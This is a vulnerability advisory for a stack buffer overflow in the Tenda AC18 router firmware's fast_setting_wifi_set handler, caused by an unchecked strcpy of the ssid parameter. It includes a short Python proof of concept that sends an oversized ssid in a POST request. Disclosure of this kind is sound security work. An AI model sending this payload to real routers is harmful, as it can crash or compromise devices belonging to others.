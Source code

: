 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `src` variable receives the `ssid` parameter from a POST request and is later assigned to the `s` and `dest` variable, which is fixed at 64 bytes. However, since the user can control the input of  `ssid`, the statement `strcpy(dest, s);`and `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `ssid` can exceed the capacity of the `s` and `dest` array, triggering this security vulnerability.

![image-20240305161750438](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305161750438.png)

![image-20240305161459140](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305161459140.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'ssid': 'a' * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240305164305678](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164305678.png)
